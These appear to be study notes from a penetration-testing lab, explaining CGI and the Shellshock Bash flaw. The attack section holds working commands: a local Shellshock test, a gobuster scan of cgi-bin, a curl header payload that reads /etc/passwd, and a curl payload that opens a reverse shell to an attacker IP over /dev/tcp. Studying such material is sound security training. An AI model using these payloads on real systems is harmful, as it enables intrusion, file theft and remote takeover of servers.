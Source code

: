 # What are CGIs
* [Common Gateway Interface](https://www.w3.org/CGI/)
* Used to render dynamic pages and create a customised response for the user
* Kept in `/CGI-bin` directory and can be written in C, C++, Java, Perl and more
* Typically used for a number of reasons:
	* Webserver must dynamically interact with the user
	* When a user submits data to the web server by filling out a form, the CGI application would process the data and return the result to the user via the webserver. 
![[Pasted image 20231019131754.png]]
* A directory is created on the web server containg the CGI scripts/applications. 
* Web application user sends a request to the server. 
* The server runs the script and passed the resultant output back to the web client.
# CGI Attacks 
## Shellshock via CGI
* Allows an attacker to exploit old version of Bash that save environment variables incorrectly. 
* Vulnerable versions would allow an attacker to execute OS commands after a function stored in an environmental variable. 
### Test
```shell
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"
```
* Bash will interpret `y='() { :;};` as a function assigned to the variable `y`. This just returns an exit 0. 
* If the bash is vulnerable it will return `vulnerable-shellshock` when the function is imported. 

## Find a vulnerability
Look for CGI scripts
```shell
 gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```
Test:
```shell
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```
Reverse Shell:
```shell
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

